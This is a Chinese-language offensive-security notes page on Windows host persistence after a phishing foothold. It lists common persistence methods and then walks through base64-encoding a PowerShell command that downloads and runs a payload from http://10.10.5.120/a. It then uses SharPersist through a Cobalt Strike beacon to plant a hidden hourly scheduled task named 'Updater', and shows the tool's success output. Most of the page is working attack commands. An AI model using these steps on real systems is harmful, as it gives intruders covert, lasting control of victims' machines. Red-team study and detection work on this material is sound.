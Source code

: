 # 主机持久性

> 为什么需要主机持久性？
如果通过钓鱼手段获得访问权限，当当前shell消失以后，就不太可能重复钓鱼这个动作再次获得shell。
持久性是一种重新获得或保持对受感染机器的访问权限的方法，而无需重新利用最初的get shell步骤。主机通常是不稳定的，因为用户倾向于经常注销或重新启动它们。

常见的主机持久性方法包括：
1. HKCU / HKLM Registry Autoruns
2. Scheduled Tasks
3. Startup Folder

[SharPersist](https://github.com/mandiant/SharPersist),C#编写的windows持久化工具。

通过命令```execute-assembly```实现持久化

# Task Scheduler

通过定时任务实现主机持久化，可以是一天中的某个时间、用户登录时、计算机空闲时、计算机锁定时或其组合。

需要用base64加密定时任务命令

powershell
```
PS C:\> $str = 'IEX ((new-object net.webclient).downloadstring("http://10.10.5.120/a"))'
PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgA1AC4AMQAyADAALwBhACIAKQApAA==
```


linux
```
root@kali:~# str='IEX ((new-object net.webclient).downloadstring("http://10.10.5.120/a"))'
root@kali:~# echo -en $str | iconv -t UTF-16LE | base64 -w 0
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgA1AC4AMQAyADAALwBhACIAKQApAA==
```


通过命令```SharPersist.exe```实现持久化
```
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Debug\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgA1AC4AMQAyADAALwBhACIAKQApAA==" -n "Updater" -m add -o hourly

[*] INFO: Adding scheduled task persistence
[*] INFO: Command: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
[*] INFO: Command Args: -nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgA1AC4AMQAyADAALwBhACIAKQApAA==
[*] INFO: Scheduled Task Name: Updater
[*] INFO: Option: hourly
[+] SUCCESS: Scheduled task added
```
